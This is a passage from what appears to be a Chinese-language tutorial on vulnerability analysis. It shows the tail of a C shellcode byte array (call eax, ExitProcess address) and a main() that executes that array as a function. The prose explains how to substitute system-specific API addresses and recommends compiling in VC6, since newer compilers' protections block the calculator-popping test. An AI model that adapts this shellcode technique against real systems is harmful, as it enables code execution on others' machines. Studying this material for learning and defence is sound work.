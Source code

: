 ```
"\xFF\xD0" //call eax
"\xB8\xFA\xCA\x81\x7C" //mov eax, 7c81cafah  ExitProcess函数的地址
"\xFF\xD0";//call eax


typedef void(*Func)();

int main()
{
	( (Func) &sh)();
	system("pause");	
	return 0;
}

```  
找到后的函数地址根据系统不同进行替换。溢出exp最好在VC6中进行编译，测试发现通过vs2017生成的程序并不能成功弹出计算器（高版本可能有一些保护机制）。将上述代码放到vs2017进行编译然后运行（win10），得到这些函数的地址：  
![漏洞分析](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/漏洞分析/图片7.png)  
将得到的地址替换之前的地址（以弹计算器为例）放到VC6中进行编译然后放到win10运行:  
